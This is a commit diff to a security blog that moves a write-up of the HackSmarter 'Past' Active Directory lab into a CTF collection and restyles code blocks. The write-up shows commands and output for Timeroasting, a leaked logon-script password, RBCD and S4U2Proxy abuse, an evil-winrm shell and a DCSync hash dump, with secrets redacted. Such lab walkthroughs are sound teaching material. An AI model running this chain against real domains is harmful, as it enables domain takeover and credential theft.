

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-past.md, in a window 1280 px wide. Shown: the top 1920 px of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Move Past writeup to _ctf collection; Tokyo Night code blocks
- Convert HackSmarter Past from _posts blog entry to _ctf writeup
  format (writeup layout, Scenario + scope table), images under
  /assets/images/ctf/past/. Secrets redacted.
- main.css: code blocks now use --bg-lighter (#24283b) with a blue
  left accent + shadow so they contrast against the page background
  instead of blending into it.

Co-Authored-By: Claude Opus 4.8 (1M context) <noreply@anthropic.com>

````diff
--- a/_posts/2026-06-12-hacksmarter-past.md
+++ b/_ctf/hacksmarter-past.md
@@ -1,46 +1,39 @@
 ---
-layout: default
-title: "HackSmarter: Past — Timeroasting to Domain Admin"
-description: "Full walkthrough of the HackSmarter 'Past' Active Directory lab (Medium): unauthenticated Timeroasting, a NETLOGON credential leak, a Protected Users account with GenericAll over the Domain Controller, and Resource-Based Constrained Delegation abuse to Domain Admin."
+title: "Past"
+platform: "HackSmarter"
+category: "Active Directory"
+difficulty: "Medium"
 date: 2026-06-12
-author: p3ta00
-tags: ["hacksmarter", "active-directory", "timeroasting", "rbcd", "protected-users", "kerberos", "delegation", "writeup", "medium"]
-image: /assets/images/hacksmarter/past-banner.png
-keywords:
-  - HackSmarter Past
-  - Timeroasting
-  - Resource-Based Constrained Delegation
-  - Protected Users
-  - RBCD S4U2Proxy
-  - Active Directory writeup
+os: "Windows Server 2016"
+tags: ["active-directory", "timeroasting", "rbcd", "s4u2proxy", "protected-users", "server-operators", "genericall", "kerberos", "delegation", "bloodhound", "dcsync", "netexec", "bloodyad"]
 ---
 
-<div class="terminal-output">
-  <p>
-    <span class="prompt-symbol">$</span> <span style="color: var(--cyan);">cat ~/blog/hacksmarter-past.md</span>
-  </p>
-</div>
-
-![Past — HackSmarter](/assets/images/hacksmarter/past-banner.png)
-
-## Overview
-
-**Past** is a **Medium** Active Directory box on HackSmarter. The client — *Past Systems Inc.* — mentioned during the kickoff that they were "currently adding new machines to the network." That throwaway remark is the entire foothold: the freshly **pre-staged computer accounts** were created with weak, human-chosen passwords instead of the random 120-character secrets AD normally assigns.
-
-We start from an **assumed-network** position — VPN access, **no credentials** — and chain:
-
-1. **Timeroasting** (unauthenticated) → crack a weak machine-account password
-2. A **cleartext credential** leaked in a NETLOGON logon script
-3. A **Protected Users** account that nonetheless holds **GenericAll over the Domain Controller** and **Server Operators**
-4. **Resource-Based Constrained Delegation (RBCD)** abuse → impersonate Administrator → **DCSync**
-
-> All hashes, passwords, and flags in this post are **redacted**.
+![Past Banner](/assets/images/ctf/past/banner.png)
 
 ---
 
-## Phase 1 — Enumeration
+## Scenario
 
-### Port Scan
+### Objective and Scope
+
+Past Systems Inc. commissioned the Hack Smarter Red Team for an internal penetration test. During the kickoff, the client mentioned they were **currently adding new machines to the network** — an offhand detail that turns out to be the entire foothold: the freshly pre-staged computer accounts were created with weak, human-chosen passwords instead of the random secrets Active Directory normally assigns.
+
+We start from an **assumed-network** position: VPN access, **no credentials**.
+
+**Difficulty:** Medium
+**OS:** Windows Server 2016
+
+| Host | IP Address | Operating System | Role |
+|------|------------|------------------|------|
+| EC2AMAZ-A5O4OL8 | 10.1.186.193 | Windows Server 2016 | Domain Controller (`past.local`) |
+
+> All hashes, passwords, and flags in this writeup are **redacted**.
+
+---
+
+## Enumeration
+
+### Port Scanning
 
 Kerberos (88), LDAP (389/3268), DNS (53), and `past.local` in the certificate identify a **Domain Controller**.
 
@@ -60,7 +53,11 @@ PORT     STATE SERVICE       VERSION
 3389/tcp open  ms-wbt-server
 ```
 
-> **Tip:** the host drops ICMP, so `ping` fails even though it's up. On Windows targets, confirm reachability with a TCP port (`nc -zv <ip> 445`), never `ping`. And map the FQDN in `/etc/hosts` immediately — Kerberos authenticates against SPNs tied to hostnames, so targeting the bare IP breaks almost every later step.
+The host drops ICMP, so confirm reachability with a TCP port (`nc -zv $TARGET 445`), not `ping`. Map the FQDN in `/etc/hosts` immediately — Kerberos authenticates against SPNs tied to hostnames, so targeting the bare IP breaks nearly every later step.
+
+```
+$ echo '10.1.186.193 EC2AMAZ-A5O4OL8.past.local EC2AMAZ-A5O4OL8 past.local' | sudo tee -a /etc/hosts
+```
 
 ### User Enumeration
 
@@ -96,11 +93,11 @@ WEBDEV01
 DEV01
 ```
 
-The DEV computer objects have **no DNSHostName** — confirming they're pre-staged accounts with no live host. NetExec's spider also drops a JSON of file metadata whose `*_epoch` timestamps nudge toward a time-based attack.
+The DEV computer objects have **no DNSHostName** — pre-staged accounts with no live host. NetExec's spider also drops a JSON of file metadata whose `*_epoch` timestamps hint at a time-based attack.
 
 ---
 
-## Phase 2 — Unauthenticated Foothold via Timeroasting
+## Initial Access — Timeroasting
 
 **Timeroasting** abuses MS-SNTP (the authenticated NTP variant AD uses). A client can request a time response whose MAC is derived from a **computer account's NT hash**, keyed by **RID** — and crucially, **without authenticating**. The result is an offline-crackable hash of the machine-account password.
 
@@ -122,9 +119,9 @@ Loaded 4 password hashes with 4 different salts (timeroast, SNTP-MS [MD4+MD5 32/
 1115:[REDACTED]
 ```
 
-RID **1115 = APPDEV01$**. Machine passwords are normally random and uncrackable — this one fell instantly because the account was pre-staged with a weak password, exactly the weakness the brief telegraphed.
+RID **1115 = APPDEV01$**. Machine passwords are normally random and uncrackable — this one fell instantly because it was pre-staged with a weak password.
 
-### Validating — and a trap to avoid
+### Validating — and a Trap to Avoid
 
 Spraying the recovered password surfaces one real result and one trap:
 
@@ -135,9 +132,9 @@ $ nxc smb $TARGET -u users -p '[REDACTED]'
 [-] past.local\administrator:... STATUS_LOGON_FAILURE
 ```
 
-> **Do NOT read tyler's `STATUS_ACCOUNT_RESTRICTION` as "correct password, just restricted"** — the most common misread of this box. As we confirm in Phase 4, tyler is in **Protected Users**, which **disables NTLM** for the account, so the DC returns `ACCOUNT_RESTRICTION` to *every* NTLM attempt **regardless of whether the password is right**. The recovered password belongs to APPDEV01$, **not** tyler. NTLM cannot validate tyler; only Kerberos can.
+> **Do not read tyler's `STATUS_ACCOUNT_RESTRICTION` as "correct password, just restricted."** tyler is in **Protected Users**, which **disables NTLM** for the account, so the DC returns `ACCOUNT_RESTRICTION` to *every* NTLM attempt **regardless of whether the password is right**. The recovered password belongs to APPDEV01$, **not** tyler. NTLM cannot validate tyler — only Kerberos can.
 
-Confirm the machine account properly — a genuine success shows `[+]` with **no `(Guest)`** tag:
+A genuine machine-account success shows `[+]` with **no `(Guest)`** tag:
 
 ```
 $ nxc smb $TARGET -u 'APPDEV01$' -p '[REDACTED]' --shares
@@ -148,7 +145,7 @@ SYSVOL          READ
 
 ---
 
-## Phase 3 — Authenticated Enumeration as APPDEV01$
+## Active Directory Enumeration
 
 ### Delegation Review
 
@@ -160,21 +157,20 @@ EC2AMAZ-A5O4OL8$  Computer     Unconstrained               N/A
 tyler             Person       Resource-Based Constrained  DEV01$
 ```
 
-Collecting the graph with BloodHound exposes the edge that actually matters — **tyler → GenericAll → the DC**:
+### BloodHound Analysis — tyler GenericAll on the DC
 
 ```
 $ bloodhound-python -u 'APPDEV01$' -p '[REDACTED]' -d past.local -ns $TARGET -c All --zip
 INFO: Found 4 computers / 7 users / 53 groups
-INFO: Compressing output into 20260612113630_bloodhound.zip
 ```
 
-![BloodHound — tyler GenericAll over the DC](/assets/images/hacksmarter/past-bloodhound.png)
+![tyler GenericAll over the Domain Controller](/assets/images/ctf/past/bloodhound-genericall.png)
 
-> **The key finding:** tyler holds **GenericAll over the Domain Controller computer object**, and is a member of both **Protected Users** and **Server Operators**. The `tyler → RBCD → DEV01$` row is a **red herring** — DEV01 is a pre-staged account with no live host, so a ticket to it is useless. The real lever is GenericAll *on the DC*.
+tyler holds **GenericAll over the Domain Controller computer object** and is a member of both **Protected Users** and **Server Operators**. The `tyler → RBCD → DEV01$` row is a **red herring** — DEV01 is a pre-staged account with no live host. The real lever is GenericAll *on the DC*.
 
 ### NETLOGON Credential Leak
 
-As APPDEV01$ we can now read `NETLOGON`/`SYSVOL`. Logon scripts and GPO files are a classic credential source:
+As APPDEV01$ we can read `NETLOGON`/`SYSVOL`. Logon scripts are a classic credential source:
 
 ```
 $ grep -ri tyler
@@ -183,20 +179,20 @@ NETLOGON/tyler_init.cmd:set TYLER_PASS=[REDACTED]
 SYSVOL/past.local/scripts/tyler_init.cmd:set TYLER_PASS=[REDACTED]
 ```
 
-A logon helper script hard-codes **tyler's password** in cleartext — the modern equivalent of a GPP `cpassword` leak.
+A logon helper hard-codes **tyler's password** in cleartext — the modern equivalent of a GPP `cpassword` leak.
 
 ---
 
-## Phase 4 — Authenticating as tyler (Protected Users)
+## Authenticating as tyler (Protected Users)
 
-Even with the *correct* password, NTLM still refuses tyler:
+Even with the correct password, NTLM still refuses tyler:
 
 ```
 $ nxc smb $TARGET -u 'tyler' -p '[REDACTED]'
 [-] past.local\tyler:... STATUS_ACCOUNT_RESTRICTION
 ```
 
-> **Why:** **Protected Users** disables NTLM (hence `ACCOUNT_RESTRICTION` even with the right password), disables RC4/DES Kerberos etypes (forcing RC4 → `KDC_ERR_ETYPE_NOSUPP`), forces **AES-only Kerberos**, and blocks delegation of the account. Pass-the-hash, over-pass-the-hash, and NTLM relay are all dead — the only way in is **AES Kerberos with the real password**.
+> **Protected Users** disables NTLM (hence `ACCOUNT_RESTRICTION` even with the right password), disables RC4/DES Kerberos etypes (forcing RC4 → `KDC_ERR_ETYPE_NOSUPP`), forces **AES-only Kerberos**, and blocks delegation of the account. Pass-the-hash, over-pass-the-hash, and NTLM relay are all dead — the only way in is **AES Kerberos with the real password**.
 
 Request a TGT over Kerberos and load it:
 
@@ -219,9 +215,7 @@ C$       READ,WRITE
 
 ---
 
-## Phase 5 — Privilege Escalation: GenericAll → RBCD → S4U2Proxy
-
-### The concept
+## Privilege Escalation — GenericAll → RBCD → S4U2Proxy
 
 `GenericAll` over a **computer object** does not let you "log in as" that computer. You exploit it by writing an attribute and having a **separate controlled principal** abuse it:
 
@@ -257,7 +251,7 @@ $ getST.py -spn cifs/EC2AMAZ-A5O4OL8.past.local -impersonate Administrator \
 
 > **The #1 gotcha on this box:** if `KRB5CCNAME` is still exported when you run a **password**-based tool, impacket reuses the *cached* ticket and S4U2Self fails with `KRB_AP_ERR_BADMATCH`. Rule: **password auth → `unset KRB5CCNAME`; ticket auth → `export` it. Never both.**
 
-### Root flag
+### Root Flag
 
 The S4U ticket is for `cifs/` only (no TGT), so use it with an impacket tool — not `nxc --use-kcache`, which wants a TGT and fails silently:
 
@@ -273,7 +267,7 @@ $ nxc smb EC2AMAZ-A5O4OL8.past.local -k --use-kcache --share C$ \
 root.txt: HSM{[REDACTED]}
 ```
 
-### Interactive shell via WinRM
+### Interactive Shell via WinRM
 
 For a shell, request the ticket for the **HTTP** SPN (WinRM's service), not `cifs`:
 
@@ -292,7 +286,7 @@ $ evil-winrm -i EC2AMAZ-A5O4OL8.past.local -r PAST.LOCAL
 
 ---
 
-## Phase 6 — Domain Compromise (DCSync)
+## Domain Compromise — DCSync
 
 ```
 $ secretsdump.py -k -no-pass past.local/administrator@EC2AMAZ-A5O4OL8.past.local
@@ -304,15 +298,15 @@ ryan:1121:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
 [*] Cleaning up...
 ```
 
-Full domain compromise — the `krbtgt` hash enables Golden Tickets for persistence, and the Administrator NT hash gives an interactive SYSTEM shell via pass-the-hash.
+Full domain compromise — the `krbtgt` hash enables Golden Tickets for persistence, and the Administrator NT hash gives a SYSTEM shell via pass-the-hash.
 
-> **On cracking the dump:** only the **human** NT hashes are worth cracking, and as **NTLM (`-m 1000`)** — not `-m 0`. A 32-hex NT hash is byte-identical to an MD5 digest, so auto-detectors guess MD5 and never crack it. Machine accounts and `krbtgt` are random; `31d6cfe0…` is the empty-password hash.
+> Only the **human** NT hashes are worth cracking, and as **NTLM (`-m 1000`)** — not `-m 0`. A 32-hex NT hash is byte-identical to an MD5 digest, so auto-detectors guess MD5 and never crack it. Machine accounts and `krbtgt` are random; `31d6cfe0…` is the empty-password hash.
 
 ---
 
-## Phase 7 — Post-Exploitation: ryan
+## Post-Exploitation — ryan
 
-ryan's NT hash didn't crack against rockyou, so we pivot to the Administrator profile's PowerShell history — operators frequently leave cleartext there:
+ryan's NT hash didn't crack against rockyou, so we pivot to the Administrator profile's PowerShell history:
 
 ```
 *Evil-WinRM* PS ...\PSReadline> type ConsoleHost_history.txt
--- a/assets/css/main.css
+++ b/assets/css/main.css
@@ -347,13 +347,15 @@ pre, code {
 }
 
 pre {
-  background: var(--bg-darker);
+  background: var(--bg-lighter);
   border: 1px solid var(--terminal-black);
-  border-radius: 4px;
+  border-left: 3px solid var(--blue);
+  border-radius: 6px;
   padding: 15px;
   overflow-x: auto;
   margin: 15px 0;
   position: relative;
+  box-shadow: 0 2px 12px rgba(0, 0, 0, 0.35);
 }
 
 pre::before {
@@ -388,12 +390,14 @@ pre code {
 
 /* Highlight container */
 .highlight {
-  background: var(--bg-darker);
+  background: var(--bg-lighter);
   border: 1px solid var(--terminal-black);
-  border-radius: 4px;
+  border-left: 3px solid var(--blue);
+  border-radius: 6px;
   padding: 15px;
   overflow-x: auto;
   margin: 15px 0;
+  box-shadow: 0 2px 12px rgba(0, 0, 0, 0.35);
 }
 
 .highlight pre {
````
Also changed, not shown: other parts of _ctf/hacksmarter-past.md (+3 -3 lines), assets/images/ctf/past/banner.png (renamed from assets/images/hacksmarter/past-banner.png), assets/images/ctf/past/bloodhound-genericall.png (renamed from assets/images/hacksmarter/past-bloodhound.png).
